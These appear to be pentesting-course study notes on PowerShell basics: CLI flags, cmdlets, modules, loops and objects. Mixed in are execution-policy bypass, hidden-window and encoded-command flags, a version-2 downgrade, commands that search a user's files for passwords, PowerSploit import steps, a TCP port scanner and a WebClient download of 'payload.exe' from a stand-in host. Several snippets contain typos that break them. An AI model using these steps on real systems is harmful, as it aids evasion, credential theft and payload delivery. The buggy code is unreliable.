

# Powershell Fundamentals

## Powershell CLI

[Powershell Command line Interface](http://radar.oreilly.com/2013/06/powershell-command-line-introduction.html)(CLI).

Powershell can be found from windows system32 or sytem folder.

- `[Environment]::Is64BitProcess` to check whether 64 bit powershell environment.
- `powershell /?` is like linux help
- Execution Policy:  
    `powershell.exe -ExecutionPolicy Bypass .\script.ps1`  
    `powershell.exe -ExecutionPolicy Unrestricted .\script.ps1`
- Windowstyle:  
    `powershell.exe -WindowsStyle Hidden .\script.ps1` This will make to run powershell command hidden.
- Command:  
    It is used to specify command or script block.  
    `powershell.exe -Command Get-Process`  
    `powershell.exe -Command "& { Get-EventLog -LogName security }"`
- EncodedCommand:  
    `powershell.exe -EncodedCommand $encodedCommand`
- NoProfile:  
    This will make sure no profile will interfere with command execution  
    `powershell.exe -NoProfile .\script.ps1`
- Version:  
    To downgrade powershell.  
    `powershell.exe -Version 2`
- Acronyms that can be used:  
    
- Get-Help  
    `Get-Help Get-Help`  
    `get-Help Get-Process -Full`  
    `Get-Help Get-Process -Examples`  
    `Get-Help Get-Help -Online`  
    `Update-Help`  
    [using Cmdlet help](https://docs.microsoft.com/en-us/previous-versions/system-center/virtual-machine-manager-2008-r2/cc764318(v=technet.10)?redirectedfrom=MSDN).
- Get-Command  
    `Get-Command` will simply list the list of commands.  
    `Get Command -Name *Firewall*` We can list all useful fuction related to modification of windows firewall.

* * *

* * *

## Cmdlets

[pipeline](https://www.petri.com/understanding-the-powershell-pipeline)(|)  
[Objects](https://docs.microsoft.com/en-us/previous-versions/technet-magazine/hh750381(v=msdn.10)?redirectedfrom=MSDN)

- `Get-ChildItem`  
    `Get-ChildItem | Format-List *`  
    `Get-Process | Sort-Object-Unique | Select-Object ProcessName`  
    `Get-Process | Sort-Object-Unique | Select-Object ProcessName > uniq_process.txt`
- Get-Process:  
    `Get-Process`  
    `Get-Process | Format-List *`  
    `Get-Process chrome, firefox | Sort-Object -Unique | Format-List Path`  
    `Get-Process chrome, firefox | Sort-Object -Unique | Format-List Path,Id`
- Get-ChildItem  
    `ls`  
    `Get-Alias -Definition Get-ChildItem`
- Get-WmiObject  
    `Get-WmiObject -class win32_operatingsystem | select -Property *`  
    `Get-WmiObject -class win32_operatingsystem | fl *`  
    `Get-WmiObject -class win32_service | Format-List *`  
    `Get-WmiObject -class win32_service | Sort-Object _Unique PathName | fl Pathname`  
    `Get-WmiObject -class win32_operatingsystem | fl * | Export-Csv C:\host_info.csv`
- `cd HKLM:\`  
    `cd .\SOFTWARE\Microsoft\Windows\CurrentVersion\`  
    `Select-String -Path C:\users\user\Documents\*.txt -Pattern pass*`  
    `Get-Content C:\Users\user\Documnets\passwords.txt`  
    Alternative oneliner for above command is `ls -r C:\users\user\Documents -File *.txt| % { sls -Path $_ -Pattern pass*`
- Get-Service  
    `Get-Service "s*" | Sort-Object Status -Descending`

* * *

* * *

## Modules

.psm1 file -> functionalities grouped together. [Module](https://docs.microsoft.com/en-us/powershell/scripting/developer/module/writing-a-windows-powershell-module?view=powershell-7).  
[Module Manifest](https://docs.microsoft.com/en-us/powershell/scripting/developer/module/how-to-write-a-powershell-module-manifest?view=powershell-7) to see how to create module.  
There are several types of modules:

1.  [Script Module](https://docs.microsoft.com/en-us/powershell/scripting/developer/module/how-to-write-a-powershell-script-module?view=powershell-7)
2.  [Binary Modules](https://docs.microsoft.com/en-us/powershell/scripting/developer/module/how-to-write-a-powershell-binary-module?view=powershell-7)
3.  [Manifest Modules](https://docs.microsoft.com/en-us/powershell/scripting/developer/module/how-to-write-a-powershell-module-manifest?view=powershell-7)
4.  Dynamic modules - created dynamically by scripts using the "[New-Module](https://docs.microsoft.com/en-gb/powershell/module/microsoft.powershell.core/new-module?view=powershell-7.1&viewFallbackFrom=powershell-6)" cmdlet.

`Get-Module`  
`Get-Module -ListAvailable`  
`Import-Module .\module.psm1`

- PowerSploit gives lot of module.  
    [https://my.ine.com/CyberSecurity/courses/e36303c3/powershell-for-pentesters](https://my.ine.com/CyberSecurity/courses/e36303c3/powershell-for-pentesters)  
    After installing we need to copied to module path.  
    `$Env:PSModulePath` to see the module path.  
    Once downloaded. `Import-Module Powersploit`  
    `Get-Module`  
    `Get-Command -Module PowerSploit`  
    `Get-Help Write-HihackDLL` where Write-HihackDLL is a module.

* * *

* * *

## Scripts

.ps1 files

```example.ps1
Parm(
    [parameter(mandatory=$true)][string]$file
)
Get-Content "$file"
```

The above script takes a file name as an argument for which it creates a variable called "$file" and runs the "Get-Content" cmdlet on the variable.  
To run the above program: `.\example.ps1 users.txt`  
  
  
**Loop statements**

- for()  
    `Get-Help about_For`
- foreach()  
    `Get-Help about_Foreach`  
    `$services=Get-Service`  
    `foreach ($service in $services) { $service.Name }` or can be accomplished by `Get-Service | ForEach-Object {$_.Name}`
- while()  
    `Get-Help about_While`
- do {something} while()  
    `Get-Help about_Do`
- do {something} until()  
      
    
- ForEach-Object  
    [ForEach-Object](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.core/foreach-object?view=powershell-7.1&viewFallbackFrom=powershell-6)  
    `Get-Service | ForEach-Object {$_.Name}`
- Where-Object  
    [Where-Object](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.core/where-object?view=powershell-7.1&viewFallbackFrom=powershell-6)  
    `Get-ChildItem c:\powershell\ | Where-Object {$_.Name-match"xls"}`

**Powershell TCP port scanner**

```TcpPort_Scan.ps1
$ports={444,81};
$ip="192.168.13.250";

foreach ($port in $ports) {try{$socket=New-Object System.Net.Sockets.TcpClient ($ip,$port);}

catch{};

if ($socket -eq $null) {echo $ip":"$port" - closed";} else {echo $ip":"$port" - open";
$socket=$null;}}
```

./TcpPort_Scan.ps1
***
***

## Objects

Objects are the results obtained from running cmdlets.

It has number of properties. For example firefox example that saw before.

`Get-Process | Get-Member-MemberType Method` will list number methods assocaiated with the cmdlet Get-Process.
`kill` and `start` to kill and start process.
`Get-Process -Name "firefox" | Kill`

[New-Object](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.utility/new-object?view=powershell-7.1&viewFallbackFrom=powershell-6)
[Type-class](https://docs.microsoft.com/en-us/dotnet/api/system.type?redirectedfrom=MSDN&view=net-5.0)


- `$webclient = New-Object System.Net.WebClient`
`$payload url = "https//site.com/payload.exe"`
`$file = "C:\ProgramData\payload.exe"`
`$webclient.DownloadFile($payload_url, $file)`

***
***